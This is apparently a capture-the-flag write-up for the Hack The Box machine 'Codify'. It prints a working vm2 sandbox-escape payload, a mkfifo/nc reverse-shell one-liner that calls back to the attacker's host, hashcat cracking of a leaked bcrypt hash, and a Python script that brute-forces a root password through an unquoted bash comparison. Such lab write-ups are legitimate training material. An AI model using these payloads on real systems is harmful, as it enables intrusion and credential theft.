





**Machine created by:** [kavigihan](https://app.hackthebox.com/users/389926)

## Recon
I start off my recon by doing a portscan of the IP.

```
$ sudo nmap 10.10.11.239 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-01 16:18 AEDT
Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.016s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

We can see 3 open ports, mainly of interest is HTTP.

I edit my `/etc/hosts` to make a new entry:

```
10.10.11.239 codify.htb
```

After that I visit [codify.htb](http://codify.htb) and see this:



Seems to be a nodeJS code parser, looking at the `About Us` page (linked up the top) something catches my eye.



They announce it running on `vm2`, and looking online there is a [very recent CVE for `vm2`](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

They also mention on a limitation page about a ticketing system.



## Exploitation

Here is the PoC code that was linked in the CVE:

```
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
```

We can change the command at the end from `touch pwned` to `whoami` to test it.



Success, now lets setup a reverse shell.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

I go to RevShells to craft a payload to send to the server, using my HackTheBox private IP and port 4444.

I use the following payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.***.*** 4444 >/tmp/f`

and I get a shell!

```
[16:42:21] 10.10.11.239:51968: registered new host w/ db                               
           listener: 10.10.***.***:4444: linux session from 10.10.11.239:51968            
           established
```

## Initial Access & User Flag

Inside the home directory there is another folder, `joshua`, which we cannot access.

Looking at earlier, they also mention a ticketing system, and checking our `/var/www/contact`, we see a `tickets.db`.

Running `file` shows it to be a SQLite3 database.

I begin parsing it with `sqlite3`.

```
$ sqlite3
sqlite> .open tickets.db
sqlite> .tables
tickets  users
sqlite> .schema users
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
sqlite> SELECT * FROM users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We see joshua's password hash! Lets crack it with hashcat and use the [rockyou wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz).

```
$ hashcat -a 0 -m 3200 joshua.hash rockyou.txt

...
Session..........: hashcat
Status...........: Cracked
...

$ hashcat -a 0 -m 3200 joshua.hash rockyou.txt --show
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

His password is `spongebob1`! Lets SSH into his user account.
```
$ ssh josua@codify.htb

...
joshua@codify:~$ ls
test  user.txt
joshua@codify:~$ cat user.txt
c815809e836105effb21a8b582939998
```

Flag: `c815809e836105effb21a8b582939998`

## Root Flag

Running `sudo -l` and inputting joshua's password immediately shows an entry

```
$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

An SQL backup script, lets see if we can exploit this.

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

I poked around at the actual database it was using mySQL and could find some hashes but they weren't crackable.

I then noticed an issue in the bash script.

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

The comparison of two variables without one being quoted is a [major error](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29)!

As a result the password input can just be `*` and we execute the script, pairing this with a little scripting we can bruteforce the root password, by sequenctially going `a*`, `b*`, `c*`...

Here's a little script to do so:

```python
import subprocess
from string import digits,ascii_letters
characters = ascii_letters+digits
password = ""
found = False
while not found:
	for char in characters:
		cmd=f"echo {password}{char}* | sudo /opt/scripts/mysql-backup.sh"
		out=subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout
		if "Password confirmed!" in out:
			password+=char
			print(f"Password: {password}")
			break
	else:
		found = True
		print(f"Password Found! {password}")
```

Running the script does the following:

```
Password: k
Password: kl
Password: klj
Password: kljh
Password: kljh1
Password: kljh12
Password: kljh12k
Password: kljh12k3
Password: kljh12k3j
Password: kljh12k3jh
Password: kljh12k3jha
Password: kljh12k3jhas
Password: kljh12k3jhask
Password: kljh12k3jhaskj
Password: kljh12k3jhaskjh
Password: kljh12k3jhaskjh1
Password: kljh12k3jhaskjh12
Password: kljh12k3jhaskjh12k
Password: kljh12k3jhaskjh12kj
Password: kljh12k3jhaskjh12kjh
Password: kljh12k3jhaskjh12kjh3
Password Found! kljh12k3jhaskjh12kjh3
```

Now using the root password `kljh12k3jhaskjh12kjh3` with `su root`, we get our root flag!

```
root@codify:/tmp# cd /root
root@codify:~# cat root.txt
53f47a17e6e8528bf69bd05b004de526
```

There it is!

Flag: `53f47a17e6e8528bf69bd05b004de526`

